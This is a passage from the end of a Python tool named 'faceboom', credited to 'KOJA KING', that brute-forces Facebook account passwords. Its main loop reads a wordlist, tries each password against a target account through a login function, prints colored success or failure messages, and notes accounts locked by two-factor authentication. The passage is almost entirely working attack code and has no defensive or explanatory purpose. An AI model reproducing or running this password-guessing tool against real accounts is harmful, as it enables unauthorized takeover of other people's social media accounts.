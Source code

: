         faceboom.banner(target,wordlist,single_passwd)
        loop,passwords = (1,open(wordlist).readlines()) if not single_passwd else ("~",[single_passwd])
        for passwd in passwords:
                passwd = passwd.strip()
                if len(passwd) <6:continue
                write(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
                retCode = faceboom.login(target, passwd)
                if retCode:
                    sys.stdout.write(wi+" ==> Login"+gr+" Success\n")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This account use ("+rd+"2F Authentication"+yl+"):"+rd+" It's Locked"+yl+" !!!")
                    break
                else:
                    sys.stdout.write(yl+" ==> Login"+rd+" Failed\n")
                    loop = loop + 1 if not single_passwd else "~"
        else:
                if single_passwd:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)
                else:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another Wordlist. "+gr+":)"+wi)
        sys.exit(1)
   else:
       print(parse.usage)
       sys.exit(1)


if __name__=='__main__':
    Main()


##############################################################
#####################                #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by KOJA KING 
#Have a nice day :)
#GoodBye
